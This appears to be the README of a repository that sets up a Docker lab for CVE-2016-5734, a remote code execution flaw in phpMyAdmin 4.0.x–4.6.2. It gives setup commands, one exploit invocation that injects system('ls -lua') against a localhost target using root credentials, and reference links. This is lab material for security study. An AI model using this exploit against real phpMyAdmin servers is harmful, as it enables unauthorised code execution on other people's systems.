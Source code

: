 # CVE-2016-5734-docker
PhpMyAdmin 4.0.x—4.6.2 Remote Code Execution Vulnerability (CVE-2016-5734)

## Setup
```
git clone https://github.com/miko550/CVE-2016-5734-docker.git
cd CVE-2016-5734-docker
docker compose up
hhtp://localhost:8083
```
## exploit
```
python3 cve-2016-5734.py -u root --pwd="root" http://localhost:8083 -c "system('ls -lua')"
```

# Reference
https://github.com/vulhub/vulhub/tree/master/phpmyadmin/CVE-2016-5734
https://github.com/allyshka/exploits/tree/master/CVE-2016-5734
